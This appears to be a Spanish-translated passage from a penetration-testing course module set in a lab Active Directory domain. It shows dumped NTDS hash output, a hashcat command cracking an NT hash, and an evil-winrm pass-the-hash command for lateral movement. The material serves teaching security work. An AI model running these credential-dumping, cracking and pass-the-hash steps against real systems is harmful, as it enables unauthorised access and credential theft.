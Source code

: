 ```r
SMB         10.129.201.57    445     DC01          

 inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
     [+] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database
```

---

## Cracking Hashes & Gaining Credentials

Podemos proceder creando un archivo de texto que contenga todos los hashes NT, o podemos copiar y pegar individualmente un hash específico en una sesión de terminal y usar Hashcat para intentar crackear el hash y obtener una contraseña en texto claro.

### Cracking a Single Hash with Hashcat

```r
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

En muchas de las técnicas que hemos cubierto hasta ahora, hemos tenido éxito al crackear hashes que hemos obtenido.

`¿Qué pasa si no tenemos éxito al crackear un hash?`

---

## Pass-the-Hash Considerations

Aún podemos usar hashes para intentar autenticarnos con un sistema usando un tipo de ataque llamado `Pass-the-Hash` (`PtH`). Un ataque PtH aprovecha el [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) para autenticar a un usuario usando un hash de contraseña. En lugar de `username`:`clear-text password` como el formato para iniciar sesión, podemos usar `username`:`password hash`. Aquí hay un ejemplo de cómo funcionaría esto:

### Pass-the-Hash with Evil-WinRM Example

```r
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

Podemos intentar usar este ataque cuando necesitemos movernos lateralmente a través de una red después del compromiso inicial de un objetivo. Más sobre PtH se cubrirá en el módulo `AD Enumeration and Attacks`.